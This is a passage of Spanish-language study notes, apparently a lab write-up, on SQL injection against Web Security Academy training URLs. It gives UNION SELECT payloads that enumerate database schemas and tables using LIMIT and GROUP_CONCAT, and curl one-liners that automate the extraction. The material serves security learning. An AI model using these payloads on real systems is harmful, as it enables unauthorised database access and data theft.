 ![Captura](./Imágenes/web_1.png)

**Bases de datos existentes**

![Captura](./Imágenes/web_2.png)

### Limit

En ocaciones, necesitaremos limitar la cantidad de información a mostrar. Para ello usaremos el parámetro `limit 0,1` para iterar entre las diferentes respuestas. Piense que hay casos que la información a extraer es extensa, y no es capaz de procesar toda la información de golpe. Por lo que limitar la informaicón mostrada iterarndo con `limit 0,1`, `limit 1,1`... es una buena alternativa

**Nota:** para no tener que iterar por cada post que haya en la página podemos empezar la query SQLi de la URL a partir del `=` y no desde su valor `=Gifts`

**Query habitual**: `https://web-security-academy.net/filter?category=Gifts' UNION SELECT 1, schema_name FROM information_schema.schemata-- -`

**Query sin post**: `https://web-security-academy.net/filter?category=Gifts' UNION SELECT 1, schema_name FROM information_schema.schemata limit 0,1-- -`

![Captura](./Imágenes/web_5.png)

### group_concat

Más potente que limit, y siempre que las circunstancias lo permitan, podemos usar el parámetro `group_concat` para agrupar la información y que se nos muestre de seguido

```bash
' UNION SELECT 1,group_concat(schema_name) FROM information_schema.schemata-- -
```

![Captura](./Imágenes/web_6.png)

### curl

En caso de obtener muchos resultados, y tener que usar limit sea algo lento de iterar, podemos o bien crear un script en bash que automatice esto, o usar el siguiente oneliner con curl 

```bash
curl -s -X GET https://0ab0008404e1b04e80a80d2500ce005d.web-security-academy.net/filter\?category\=%27%20union%20select%20NULL,table_name%20from%20information_schema.tables%20limit%201,1--%20-
```

![Captura](./Imágenes/curl_1.png)

```bash
curl -s -X GET https://0ab0008404e1b04e80a80d2500ce005d.web-security-academy.net/filter\?category\=%27%20union%20select%20NULL,table_name%20from%20information_schema.tables%20limit%201,1--%20- | grep "<td>" | html2text
```

Resultado:

```bash
CHECK_CONSTRAINTS
```
